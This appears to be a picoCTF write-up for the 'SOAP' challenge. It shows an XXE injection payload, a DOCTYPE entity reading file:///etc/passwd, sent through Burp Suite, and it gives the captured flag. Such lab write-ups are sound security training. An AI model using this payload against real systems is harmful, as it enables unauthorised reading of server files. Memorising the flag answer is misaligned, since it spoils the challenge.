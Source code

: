 # SOAP
## Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
[Web Portal](http://saturn.picoctf.net:58497/)
## Hint
XML external entity Injection
## Solution
- The website is a simple web page with the text
```
Computer Science
We have been ranked to be among the best universities in the world!
```
- It contains details about CMU Africa, PicoCTF, and Upanzi Network.
- The hint suggests that we can use XML external entity injection to read the /etc/passwd file.
- I didn't know what SOAP was so I looked it up.
- I also looked up XML external entity injection.
- (I also installed the FoxyProxy extension so that i don't need to open a new browser to use Burp Suite)
- I came across [this](https://portswigger.net/web-security/xxe) site which gives a good explanation of XXE.
- I click on a Details button and intercept the request with Burp Suite and send it to the repeater.
- The HTTP request contains the following XML request
```xml
<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>
```
- After scrolling down a little on the PortSwigger article, I see this example
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
- I can add `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>` to the XML request and then reference the `xxe` variable to read the `/etc/passwd` file.
- I modify the XML request to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>
```
- I send the request and get the flag `picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}`